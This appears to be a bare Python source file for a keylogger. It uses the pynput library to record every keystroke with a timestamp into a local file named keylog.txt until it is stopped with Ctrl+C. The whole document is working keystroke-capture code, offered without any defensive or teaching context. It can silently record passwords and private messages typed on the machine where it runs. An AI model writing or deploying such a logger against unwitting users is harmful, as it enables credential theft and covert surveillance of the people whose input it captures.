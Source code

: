 from pynput import keyboard
import time

def on_key_press(key):
    try:
        key_char = key.char
    except AttributeError:
        key_char = str(key)
    log_file = open("keylog.txt", "a")
    timestamp = time.strftime("%Y-%m-%d %H:%M:%S", time.localtime())
    log_file.write(f"{timestamp} - {key_char}\n")
    log_file.close()

def main():
    print("Logger Started, Press Ctrl+C to stop logging.")
    with keyboard.Listener(on_press=on_key_press) as listener:
        try:
            listener.join()
        except KeyboardInterrupt:
            print("Logger Stopped.")

if __name__ == "__main__":
    main()
